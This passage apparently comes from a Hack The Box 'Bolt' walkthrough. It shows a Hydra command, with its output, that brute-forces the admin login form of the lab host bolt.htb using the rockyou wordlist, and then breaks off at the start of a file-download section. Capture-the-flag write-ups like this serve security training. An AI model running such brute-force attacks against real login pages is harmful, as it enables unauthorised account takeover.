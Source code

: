 ![bolt-port80-admin](/assets/images/2021-10-24-15-39-38.png)

## Hydra Brute Force

So we can assume there's a admin user. I'll start Hydra going to try and brute force the login:

```sh
┌──(root💀kali)-[~/htb/bolt]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt bolt.htb http-post-form "/login:username=^USER^&password=^PASS^:Invalid password" -t 64
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-24 15:43:59
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://bolt.htb:80/login:username=^USER^&password=^PASS^:Invalid password
```

## File Download

While waiting for that I looked at the menu and found this download page:

![bolt-port80-download](/assets/images/2021-10-24-15-45-59.png)
